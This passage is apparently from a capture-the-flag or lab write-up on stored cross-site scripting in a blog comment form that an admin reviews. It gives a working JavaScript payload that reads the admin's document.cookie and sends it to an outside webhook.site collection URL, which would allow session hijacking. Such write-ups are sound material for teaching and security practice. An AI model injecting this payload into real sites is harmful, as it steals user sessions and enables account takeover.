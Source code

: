 Payload: `<script>alert(2)</script>`

![XSS triggered](40.png "XSS triggered")

We also got a message that comment would be reviewed by admin.

![comment msg](41.png "comment msg")
![comment msg](42.png "comment msg")

This means that we can inject a malicious script and when the admin would review it the XSS would be triggered and we can get his cookie.

Get a link from webhook.site.

Then create an XSS payload as follows.

```javascript
<script>
  const cookie = document.cookie;
  const xhr = new XMLHttpRequest();
  xhr.open("GET", "https://webhook.site/a3c68f0c-<SNIP>/?cookie=" + encodeURIComponent(cookie), true);
  xhr.send();
</script>
```

Inject the payload in the comment and you'll get the admin cookie in a while.
